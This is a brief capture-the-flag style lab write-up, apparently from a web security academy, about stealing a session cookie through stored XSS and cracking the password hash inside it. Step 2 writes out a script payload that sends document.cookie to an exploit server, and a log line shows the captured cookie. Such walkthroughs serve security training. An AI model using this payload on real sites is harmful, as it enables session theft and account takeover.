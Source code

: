 # Lab: Offline password cracking
## Description

1. Found the XSS in the blog comment field.
2. Submitted the following payload `<script>document.location="https://exploit-ac1e1f6c1ecea250c0c208e901180029.web-security-academy.net/"+document.cookie;</script>` into the comment field.
3. Grabbed the cookies from the exploit server, which looked something like this:
```
172.31.30.162   2022-01-15 14:17:05 +0000 "GET /secret=aTDxxo7FfVo8jm6BsH5PycXivAKqxhKS;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"
```
4. The stay-logged-in cookie `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz` contains the following after base64 decoding it `carlos:26323c16d5f4dabff3bb136f2460a943`
5. I used https://crackstation.net/ to "crack" the password


## Solution
See description
